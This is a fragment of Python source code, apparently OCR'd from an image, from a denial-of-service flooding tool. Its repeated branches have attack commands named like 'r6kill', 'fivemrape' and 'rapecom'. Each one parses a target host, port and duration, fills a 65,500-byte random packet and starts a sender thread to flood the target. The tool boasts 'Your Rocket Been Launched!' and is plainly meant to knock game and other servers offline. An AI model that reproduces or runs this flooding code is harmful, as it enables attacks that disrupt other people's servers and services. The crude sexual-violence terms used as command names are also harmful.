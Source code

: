 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemrape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "r6kill":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "rapecom":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemslump":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()